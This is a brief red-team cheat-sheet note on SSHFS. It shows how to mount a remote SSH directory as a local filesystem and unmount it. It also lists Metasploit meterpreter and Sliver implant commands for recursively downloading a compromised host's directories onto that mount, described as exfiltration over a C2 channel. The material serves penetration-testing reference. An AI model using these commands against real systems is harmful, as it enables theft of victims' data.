 # SSHFS

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Usage

- Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

- To unmount the filesystem

`$ fusermount -u /mnt/ssh_filesystem/`

## 02 - Use Cases

### 2.1 - Exfiltration over C2 channel

#### 2.1.1 - Metasploit

`meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

#### 2.1.2 - Sliver

`sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/General/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/General/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]